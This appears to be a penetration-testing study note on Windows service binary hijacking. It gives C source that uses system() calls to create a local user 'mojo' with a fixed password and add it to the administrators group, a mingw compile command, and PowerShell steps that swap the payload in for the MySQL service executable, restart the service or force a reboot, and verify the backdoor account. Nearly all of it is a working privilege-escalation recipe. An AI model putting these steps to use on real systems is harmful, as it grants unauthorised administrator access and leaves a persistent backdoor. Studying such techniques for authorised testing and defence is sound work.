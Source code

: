 # Service Binary Hijacking

Used when we discover we have write permissions over the binary associated with a service.

**adduser.c**

```c
#include <stdlib.h>

int main ()
{
  int i;
  i = system ("net user mojo Password123! /add");
  i = system ("net localgroup administrators mojo /add");
  return 0;
}
```

```bash
# Compile
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
# Backup and move in our new binary
mv C:\xampp\mysql\bin\mysqld.exe backups\mysqld.exe.bak
mv .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

# Restart the service if we have permissions
net stop mysql

# If denied access, check if autorestart is enabled (Auto)
Get-CimInstance -ClassName win32_service | Where-Object {$_.Name -like 'mysql'}
shutdown /r /t 0
```

After reboot, we can check and see that our new user has been created!

```powershell
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```